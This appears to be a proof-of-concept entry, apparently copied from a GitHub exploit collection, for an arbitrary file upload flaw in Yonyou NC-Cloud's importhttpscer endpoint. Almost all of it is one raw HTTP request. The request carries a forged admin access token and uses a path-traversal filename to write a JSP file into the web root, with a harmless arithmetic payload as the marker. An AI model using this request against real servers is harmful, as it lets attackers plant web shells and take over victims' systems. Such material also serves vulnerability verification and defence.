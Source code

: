 # ncc_importhttpscer_fileupload

from: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BNC-Cloud_importhttpscer%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md

2024.4.8 @2

```
POST /nccloud/mob/pfxx/manualload/importhttpscer HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0 info
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
accessToken: eyJhbGciOiJIUzUxMiJ9.eyJwa19ncm91cCI6IjAwMDE2QTEwMDAwMDAwMDAwSkI2IiwiZGF0YXNvdXJjZSI6IjEiLCJsYW5nQ29kZSI6InpoIiwidXNlclR5cGUiOiIxIiwidXNlcmlkIjoiMSIsInVzZXJDb2RlIjoiYWRtaW4ifQ.XBnY1J3bVuDMYIfPPJXb2QC0Pdv9oSvyyJ57AQnmj4jLMjxLDjGSIECv2ZjH9DW5T0JrDM6UHF932F5Je6AGxA
Content-Length: 190
Content-Type: multipart/form-data; boundary=fd28cb44e829ed1c197ec3bc71748df0

--fd28cb44e829ed1c197ec3bc71748df0
Content-Disposition: form-data; name="file"; filename="./webapps/nc_web/141172.jsp"

<%out.println(1111*1111);%>
--fd28cb44e829ed1c197ec3bc71748df0--
```
